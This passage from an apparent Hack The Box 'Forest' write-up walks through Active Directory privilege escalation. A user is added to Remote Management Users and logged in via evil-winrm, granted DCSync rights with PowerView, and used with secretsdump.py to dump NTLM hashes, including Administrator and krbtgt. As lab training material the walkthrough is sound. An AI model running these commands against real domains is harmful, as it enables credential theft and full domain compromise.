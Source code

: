 If we want to use the account for some reason we can always add it to the Remote Management Users group: 

```powershell
Add-DomainGroupMember -Identity "Remote Management Users" -Members Baudy
```

This way we can log into that account using WinRM:

```aaa
┌─[✗]─[baud@parrot]─[/opt/impacket/examples]
└──╼ $evil-winrm -i forest -u Baudy -p "Password123!"

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Baudy\Documents> 
```

But it is not necessary.

---

## Privilege Escalation: DCSync + Pass The Hash

We have DaclWrite permissions across the domain and a new user to play with, what could go wrong? 

PowerView has a neat function to add all the necessary user rights to perform a [DCSync](https://adsecurity.org/?p=1729) attack, all we need to do is to grant ourselves those rights with the DCSync option:

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity Baudy -Rights DCSync
```

DCSync works by communicating with a domain controller and pretending to be another domain controller in the domain, and using the Directory Replication Service Remote Protocol to request some data off the target that the local DC needs to update, which of course for us means password hashes.

Another one of Impacket's tools, secretsdump.py, makes use of DCSync to do just that, dump all credentials of all accounts in the NTDS.dit database:

```aaa
┌─[baud@parrot]─[/opt/impacket/examples]
└──╼ $sudo ./secretsdump.py -target-ip forest -dc-ip forest htb.local/baudy@forest
[sudo] password for baud: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```